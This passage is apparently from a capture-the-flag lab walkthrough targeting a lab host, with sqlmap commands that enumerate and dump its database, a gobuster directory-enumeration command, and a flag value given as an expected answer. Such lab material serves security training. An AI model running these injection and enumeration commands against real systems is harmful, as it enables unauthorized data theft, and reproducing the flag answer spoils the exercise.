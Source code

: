 **Expected Result**: `/product`

---

### **Task 4: SQLmap is an army \o/** 🗃️
**Objective**: Enumerate database information using automated tools.

**Commands**:
```bash
# Find database names
sqlmap -u "http://active.hbtn/product/11" --dbs

# Count tables in database  
sqlmap -u "http://active.hbtn/product/11" -D active.hbtn --tables
```

**Expected Results**: 
- Database name: `active.hbtn`
- Number of tables: `4`

---

### **Task 5: Injections hurt :'** 💉
**Objective**: Extract FLAG_2 from database using SQL injection.

**Command**:
```bash
# Dump database content
sqlmap -u "http://active.hbtn/product/11" -D active.hbtn --dump
```

**Hint**: Check the Users table for flag information.

**Expected Result**: `0e5afa0ab0462568a9a193803714a3fc`

---

### **Task 6: My NAV doesn't include all my pages** 📁
**Objective**: Discover hidden directories using directory enumeration.

**Command**:
```bash
gobuster dir -u http://active.hbtn \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
  -b 302
```

**Expected Result**: `/admin`

---

### **Task 7: It may look the same, but it's not** 🚩
**Objective**: Extract FLAG_3 from the discovered admin panel.

**Method**:
- Access the discovered admin directory
- Look for exposed sensitive information
- Manual inspection of admin interface
